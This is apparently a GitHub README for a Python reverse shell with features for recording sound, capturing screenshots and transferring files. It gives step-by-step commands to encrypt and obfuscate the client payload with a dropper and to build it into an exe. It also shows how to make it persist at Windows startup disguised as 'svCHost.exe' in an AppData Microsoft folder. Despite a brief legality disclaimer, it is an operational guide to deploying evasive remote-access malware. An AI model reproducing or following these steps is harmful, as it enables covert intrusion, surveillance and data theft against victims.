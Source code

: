 ## Disclaimer
This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal.
# Multiclient-Reverse-shell
Reverse shell using socket programming in python.
With features like sound recording, screenshot,upload and download files.
# prerequisite
* python 3.7.x
# How to Use

To use this reverse shell, two scripts need to be running

* **server/server.py** - runs on server and waits for clients to connect.(listens on 4444 port)
* **client/client.py** - connects to a remote server.

## For obfuscation
$ cd crypter\
$ python crypter.py ../client/client.py \
which will create a encrypted payload using fernet encryption method.\
$ type encrypted_payload.txt (copy this) \
To execute encrypted payload use dropper.py.\
change the value of data variable in dropper.py file with the encrypted_payload.txt content.\
Than run:\
$python dropper.py

# Create Exe file.
To Create exe file of client.py run auto_py_to_exe command in terminal.

# To run at startup (Windows os)
$copy Run_at_Startup/run_at_startup.py Run_at_Startup/copy.py\
$copy Run_at_Startup/client_payload.py Run_at_Startup/svCHost.py\
$cd crypter\
$python crypter.py ../Run_at_Startup/copy.py\
which will create a encrypted_payload.txt.(copy its content)\
change the value of data variable in dropper/dropper.py file with the encrypted_payload.txt content.\
$copy dropper.py copy.py\
And than create its exe\
$python crypter.py ../Run_at_Startup/svCHost.py\
which will create a encrypted_payload.txt (copy its content).\
change the value of data variable in dropper/dropper.py file with the encrypted_payload.txt content.\
$copy dropper.py svCHost.py\
And than create its exe.

To put both the exe at some location and just run copy.exe to it will copy the svCHost.exe in C:\Users\<username>\AppData\Local\Microsoft or C:\Users\<username>\AppData\Local\Microsoft\office and creates its shortcut in startup folder.

# Pyaudio error
try this:\
$pipwin install pyaudio\
or\
refer to this:https://stackoverflow.com/questions/52283840/i-cant-install-pyaudio-on-windows-how-to-solve-error-microsoft-visual-c-14
